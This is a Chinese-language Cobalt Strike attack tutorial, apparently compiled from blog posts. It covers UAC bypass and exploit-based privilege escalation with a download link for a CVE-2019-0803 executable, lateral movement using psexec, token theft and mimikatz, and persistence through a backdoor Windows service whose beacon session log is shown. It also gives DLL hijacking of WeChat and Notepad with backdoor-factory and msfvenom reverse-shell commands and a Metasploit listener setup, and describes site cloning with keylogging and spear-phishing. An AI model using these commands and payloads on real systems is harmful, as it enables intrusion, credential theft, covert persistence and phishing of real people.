永恒之蓝（EternalBlue）是一个由美国国家安全局（NSA）开发的漏洞利用工具。它利用了Windows操作系统中的一个安全漏洞，使得攻击者可以远程执行恶意代码，而无需用户交互或认证。永恒之蓝最初在2017年被勒索软件WannaCry利用，迅速传播到全球范围内，并对许多组织和个人造成了严重影响。
这一事件引起了全球对网络安全的高度关注，也促使微软发布了相关的安全补丁来修复此漏洞。永恒之蓝的案例凸显了网络安全的重要性，提醒人们及时更新操作系统和软件补丁，以保护自己免受类似漏洞利用的威胁。
~~~

#### 1. 右键菜单提权

选择<code>beacon</code>，右键，执行–>提权

##### uac-token-duplication

这是另一种绕过UAC的攻击，将其从低权限提升到高权限（作为本地管理员）。这种攻击使用一个UAC漏洞，允许非提升进程使用从提升进程中窃取的令牌启动任意进程。此漏洞要求攻击删除分配给提升令牌的多个权限。此攻击适用于Windows7及更高版本。如果AlwaysNotify处于其最高设置，则此攻击要求提升的进程已在当前桌面会话中运行（作为同一用户）,此漏洞使用PowerShell生成会话。

~~~ tex
UAC是User Account Control的缩写，即用户账户控制。它是Windows操作系统中的一个功能，旨在提高系统安全性，防止未经授权的更改。UAC绕过是指绕过这种用户账户控制，在未经授权的情况下执行某些操作。这可能涉及利用漏洞或使用特定的技术手段来获取管理员权限而不受限于UAC
~~~

##### ms14-058/ms15-051/ms16-016/ms16-032

这些都是大家耳熟能详的Windows本地提权漏洞，在此插件中都已经集成

##### UAC-DLL

这是一种绕过UAC的攻击，它试图将本地管理员运行的有效负载从低权限提升到高权限。此攻击使用UAC漏洞将ArtifactKit生成的DLL复制到特权位置。此攻击适用于Windows7和Windows8及更高版本的未修补版本。

##### Uac-eventvwr

这种提权方法是利用时间查看器eventvwr，通过注册表之后，执行Eventvwr.exe会自动加载我们的A.exe(exp),这个时候他的权限就是高了，成功绕过UAV

~~~ tex
注册表是Microsoft Windows操作系统中的一个重要组成部分，用于存储系统和应用程序的配置信息、用户偏好设置、硬件信息以及安装的软件信息等。注册表是一个层次结构的数据库，包含了关键-值对的集合，它对操作系统的运行和管理起着至关重要的作用。

注册表的主要作用包括：
系统配置：存储了Windows操作系统的各种配置信息，如启动项、服务设置、文件关联等，通过修改注册表可以对系统行为进行调整。
应用程序设置：许多安装在计算机上的软件会使用注册表来存储自己的配置信息，比如安装路径、默认设置、许可证信息等。
硬件信息：一些硬件配置信息也被记录在注册表中，例如设备驱动程序和相关参数。
用户配置：每个用户在计算机上的个性化设置都会保存在注册表中，例如桌面背景、文件夹选项、显示设置等。
总之，注册表在Windows系统中扮演了一个非常重要的角色，它影响着系统和应用程序的配置和行为，因此在操作系统维护和故障排查时，我们经常需要编辑或检查注册表来进行相应的调整。
~~~

##### Uac-wscript

这种绕过uac提权的方法最初是在Empire框架中现身的，该方法只针对Windows7有效

#### 2.自用EXP提权

这种方式就是比较常规的方法，自己上传最新的EXP进行提权，至于文件上传和执行的方法，之前已经讲过，在此不多赘述
最近测试CVE-2019-0803的提权效果不错，影响版本非常广

~~~ shell
Microsoft Windows Server 2019 0
Microsoft Windows Server 2016 0
Microsoft Windows Server 2012 R2 0
Microsoft Windows Server 2012 0
Microsoft Windows Server 2008 R2 for x64-based Systems SP1
Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1
Microsoft Windows Server 2008 for x64-based Systems SP2
Microsoft Windows Server 2008 for Itanium-based Systems SP2
Microsoft Windows Server 2008 for 32-bit Systems SP2
Microsoft Windows Server 1803 0
Microsoft Windows Server 1709 0
Microsoft Windows RT 8.1
Microsoft Windows 8.1 for x64-based Systems 0
Microsoft Windows 8.1 for 32-bit Systems 0
Microsoft Windows 7 for x64-based Systems SP1
Microsoft Windows 7 for 32-bit Systems SP1
Microsoft Windows 10 Version 1809 for x64-based Systems 0
Microsoft Windows 10 Version 1809 for ARM64-based Systems 0
Microsoft Windows 10 Version 1809 for 32-bit Systems 0
Microsoft Windows 10 Version 1803 for x64-based Systems 0
Microsoft Windows 10 Version 1803 for ARM64-based Systems 0
Microsoft Windows 10 Version 1803 for 32-bit Systems 0
Microsoft Windows 10 version 1709 for x64-based Systems 0
Microsoft Windows 10 Version 1709 for ARM64-based Systems 0
Microsoft Windows 10 version 1709 for 32-bit Systems 0
Microsoft Windows 10 version 1703 for x64-based Systems 0
Microsoft Windows 10 version 1703 for 32-bit Systems 0
Microsoft Windows 10 Version 1607 for x64-based Systems 0
Microsoft Windows 10 Version 1607 for 32-bit Systems 0
Microsoft Windows 10 for x64-based Systems 0
Microsoft Windows 10 for 32-bit Systems 0
~~~

EXP的下载链接为:https://github.com/k8gege/K8tools/raw/master/CVE-2019-0803.exe
用法:CVE-2019-0803.exe cmd cmdline，可能需要多执行几次才可以成功

#### 3.Powershell提权

在此需要使用beacon中的命令-powershell-import

~~~ shell
beacon> help powershell-import
Use: powershell-import [/path/to/local/script.ps1]

Import a powershell script which is combined with future
calls to the powershell command. You may only use one
imported script at a time.
~~~

使用 powershell-import 本地导入我们的脚本，powershell执行,PowerUp.ps1 这个模块是个提权辅助模块
下载链接:https://github.com/HarmJ0y/PowerUp

### 2.横向移动

**横向渗透概念:**
横向渗透攻击技术是复杂网络攻击中广泛使用的一种技术，特别是在高级持续威胁（Advanced Persistent Threats，APT）中更加热衷于使用这种攻击方法。攻击者可以利用这些技术，以被攻陷的系统为跳板，访问其他主机，获取包括邮箱、共享文件夹或者凭证信息在内的敏感资源。攻击者可以利用这些敏感信息，进一步控制其他系统、提升权限或窃取更多有价值的凭证。借助此类攻击，攻击者最终可能获取域控的访问权限，完全控制基于Windows系统的基础设施或与业务相关的关键账户。
在提权后，我们可以用mimikatz dump目标机的凭证，并进行内网横向移动

#### 1.Psexec横向移动

在执行端口扫描后
目标视图中，选择一个目标，右键–>登录–psexec，即可选择凭证进行横向移动

如果该机使用了和之前的目标机一样的凭证，则会成功返回一个system beacon

#### 2.窃取令牌

在进程列表中，寻找以域管理员身份运行的进程，并选定进行steal token，如果成功，则会返回域管权限的beacon，但是一般情况下绝不会那么简单的…在此就不演示了。

#### 3.其他手段横向移动

①使用各种系统漏洞:比如说用ms17-010，ms08-067批量检测一下内网~
我之前的帖子发过cobaltstrike中ms17-10的利用脚本，貌似是从Empire框架上扒下来的。如图，该脚本集成了扫描与漏洞利用，可谓是非常方便

②弱口令检测
内网中ssh弱口令，各种数据库的弱口令可谓是层出不穷。Mysql可以mof提权，sqlserver可以xp_cmdshell,redis写shell，oracle也有方法执行系统命令。
③中间件漏洞
这个就非常常见了，比如weblogic各种rce漏洞等等
④Web端漏洞
挖掘web端漏洞，大家都懂
⑤其他
大家自行总结~

# 12. [控制持久化](https://blog.csdn.net/qq_26091745/article/details/104045449)

### 右键菜单实现控制持久化

在windows中，拿到目标主机权限后，，维持权限是必不可少的工作。
目前常见的手法有:

~~~ tex
1.注册表
2.启动项
3.计时任务
4.设置服务
5.shift后门
6.dll劫持(白加黑)
7.利用其他安装的软件
~~~

在我之前给出的插件中，已经包含了控制持久化的插件；如图，里面包含了很多控制持久化的方法，可自动执行

前几个Persist(※)貌似都是劫持关键程序的dll实现控制持久化
Sticky Keys是大家熟悉的粘滞键后门(shift后门，摁五下shift弹出cmd窗口)
Scheduled Job方法为写计划任务维持权限
最后一个我也没整明白什么意思，大牛们知道嘛？
利用这个菜单实现控制持久化虽然方便，但是存在一定的局限，也有很多问题，下面简单讲两种个人常用的维持权限的方法

### Windows Service维持权限

在cobaltstrike中生成一个Windows service服务后门

导出时后门名为beacon.exe

随后在beacon中执行如下命令

~~~ shell
beacon> cd C:\WINDOWS\Temp\
[] cd C:\WINDOWS\Temp\
[+] host called home, sent: 24 bytes

beacon> upload /root/beacon.exe
[] Tasked beacon to upload /root/beacon.exe as beacon.exe
[+] host called home, sent: 309782 bytes
beacon> shell sc create "thisisserver" binpath= "C:\WINDOWS\Temp\beacon.exe"
[] Tasked beacon to run: sc create "thisisserver" binpath= "C:\WINDOWS\Temp\beacon.exe"
[+] host called home, sent: 93 bytes
[+] received output:
[SC] CreateService 成功

beacon> shell sc description "thisisserver" "description"
[] Tasked beacon to run: sc description "thisisserver" "description"
[+] host called home, sent: 74 bytes
[+] received output:
[SC] ChangeServiceConfig2 成功

beacon> shell sc config "thisisserver" start= auto
[] Tasked beacon to run: sc config "thisisserver" start= auto
[+] host called home, sent: 67 bytes
[+] received output:
[SC] ChangeServiceConfig 成功

beacon> shell net start "thisisserver"
[] Tasked beacon to run: net start "thisisserver"
[+] host called home, sent: 55 bytes*
~~~

这样的话目标机每次开机，都会运行你的beacon.exe后门，实现控制的持久化。
当然，如果目标主机存在杀毒全家桶的话，那么对你后门的免杀是有很高要求的，至于cobaltstrike后门的免杀，打算过一段时间做个番外篇讲，老铁们可以关注下~

### dll劫持(白加黑)维持权限

Dll劫持的话，主要是劫持那些经常运行程序的dll，这样程序一运行，就会加载我们的恶意dll。实现控制持久化

#### 劫持微信的dll

首先使用Process Explore查看微信调用的dll

本次测试，是劫持的他的d3dcompiler_47.dll
使用backdoor factory制作dll后门(保存在目录的backdoored文件夹下)
链接:https://github.com/secretsquirrel/the-backdoor-factory

命令如下：

~~~ shell
python backdoor.py -f d3dcompiler_47.dll -s reverse_shell_tcp_inline -P 6666 -H 8.8.8.8(你的teamserver)
~~~

把这个加了后门的dll放到微信程序的文件夹下
用cobaltstrike配置一个tcp协议监听6666端口的Listener，或者nc监听6666端口，目标机运行微信时，即可收到反弹的shell

再看一个，劫持notepad的dll：
我们首先打开Kali，用Metasploit或者cobaltstrike来生成一个dll木马

#### Metasploit生成dll后门命令

~~~ shell
msfVENOM -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 lhost=192.168.199.107 lport=6666 -f dll > ./Msimg32.dll
~~~

#### Cobaltstrike生成dll后门方法

然后配置6666端口的监听
Metasploit:

~~~ shell
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.199.107
set lport 6666
exploit
~~~

Cobaltstrike配置监听后把dll放到notepad文件夹中，运行notpad++即可返回会话

# 13. [网站克隆与邮件鱼叉钓鱼](https://blog.csdn.net/qq_26091745/article/details/104045647)

## 网站克隆

菜单栏，攻击–>钓鱼攻击–>克隆网站

根据你的个人需求，填写克隆网址，主机地址，和你的端口，注意端口不要冲突
记得把键盘记录打开

如图，我们成功克隆出一个百度

随后我们在，视图–>web日志中查看相关信息

如图，一位不知名的用户在该页面输入了J0o1ey dashuaibi

## 邮件鱼叉钓鱼

使用 攻击–>邮件钓鱼

~~~ shell
targets 发送的目标信息 格式 xxxx@xxx.com(tab键) name
55x@qq.com  TOM
xx@163.com  jim

tmplate 邮件模板 一般在邮件的更多选项中 ，选择导出，或者显示原文

attachment 附件

Embed URL 要嵌入的网址

Mail server SMTP

Bounce to 模仿发件人

preview 预览我们的模板文件 
~~~

send发送成功后我们可以在 send email 看到提示

这个功能不推荐大家使用，发出去的邮件泼出去的水，很容易被取证的，自己娱乐玩下就好

[神兵利器_J0o1ey的博客-CSDN博客](https://blog.csdn.net/qq_26091745/category_12205004.html)

## 其他工具

### 傀儡注入扫描工具V6.0

+ 链接：https://pan.baidu.com/s/16xF0M_NLMqaIJ1Pd5VtQCw
+ 提取码：7o9a

